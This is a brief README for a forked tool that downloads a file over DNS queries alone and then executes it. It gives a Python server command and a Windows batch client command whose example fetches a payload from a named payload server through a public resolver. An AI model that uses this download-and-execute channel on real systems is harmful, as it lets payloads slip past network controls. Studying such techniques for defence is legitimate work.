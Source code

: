 ## Purpose

Use only DNS queries to download a file, and then execute it.

## Usage

On the server hosting the file (tested with python2):

**sudo python server.py -f /path/to/file**

On the Windows client with batch script:

**client\client_batch\runme.bat _payloadserver_ _fileparts_ _publicdnsserver_**
Example: client\client_batch\runme.bat payloadserver.yourdomain.com 42 8.8.8.8

Original author:

http://breenmachine.blogspot.com/2014/09/transfer-file-over-dns-in-windows-with.html

https://github.com/breenmachine/dnsftp

Forked and modified by:
Daniel Vinakovsky
